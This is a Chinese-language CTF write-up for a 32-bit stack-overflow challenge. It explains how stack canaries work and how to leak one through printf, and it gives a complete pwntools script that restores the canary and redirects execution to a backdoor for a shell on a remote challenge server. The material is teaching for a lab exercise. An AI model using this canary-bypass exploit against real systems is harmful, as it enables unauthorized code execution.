




### 笼中之鸟

#### 题目描述

这里有一只脆弱的金丝雀，你能从它口中探听到flag嘛

#### 解题思路

checksec查看发现开启了栈保护：

die发现是常规的32位程序，ida打开发现栈溢出漏洞：，

同时发现只要访问就可以getshell的后门函数：

于是，我们所需要考虑的内容便是如何绕开这个栈保护，将backdoor的地址覆盖成返回地址。

那么先了解一下这个对栈的保护：`Canary`，取名自地下煤矿的金丝雀，它能比矿工更早地发现煤气泄漏，有预警的作用。它在程序入口处从 GS 段（32 位）或 FS 段（64 位）内获取一个随机值，每次进程重启的 Canary 均不同，但是**同一进程中的不同线程的 Canary 是相同的**：

上图便是将gs:14h处取出Canary，并在下一行放在ebp-0xC的位置。

**Canary 的 16 进制形式通常以 `\x00` 结尾**，在内存中则首先读取小端序形式的 `\x00` ，从而与前面的内容造成字符串截断，**避免被 `printf()` 一类的输出函数泄漏**。

如果我们想利用栈溢出覆盖返回值，则填充的数据必定会经过栈上的 Canary，程序一旦检测到 Canary 的值被篡改，便会直接调用 `__stack_chk_fail()` ，导致程序崩溃退出，这样我们也就无法进一步栈溢出漏洞了。

了解了以上信息，我们就可以开始做题了。

注意到，我们一共有两次栈溢出的机会，之后就结束了。在栈溢出漏洞之后存在一个printf函数，如果我们第一次泄露出Canary的具体值，下一次就可以通过将Canary改成和原来一样从而绕过这个机制了。

但是，不是存在字符串截断嘛，如何获得canary呢？我们不是有栈溢出嘛，通过覆盖canary的第一个\x00字节，就可以得到后面的内容了，最后再加上第一个\x00字节就可以了。

那么我们的构思就是这些，还是比较简单的，下面便是该思路的解题脚本：

```python
from pwn import *
context(log_level='debug', arch='i386', os='linux')
file = './chall'
# p = process(file)
p = remote('118.89.197.242',33122)
elf = ELF(file)

getshell_addr = elf.symbols['backdoor']
payload = b'a' * 100
p.sendline(payload)

p.recvuntil(b'a' * 100)
canary = u32(p.recv(4)) - 0xa
print(hex(canary))

payload = flat([b'a' * 0x64, canary, b'a' * 0xc])   # 填充 Canary 后距离返回地址还有 0xc
payload += p32(getshell_addr)
p.sendline(payload)
p.recv()
p.interactive()

```


#### 出题思路

之前做了这么多什么保护都没有的，得开始接触一些保护措施了。这个开启了栈保护的金丝雀机制，在常规情况下足以防止栈溢出。但是，作为一种原理比较简单的机制，其实绕过也是可行的。

其他不同的保护方式也有对应的绕过方法，所以当你把每种保护方法全部掌握后，看见多个保护同时开启也只需要综合几个对应的方法就可以了。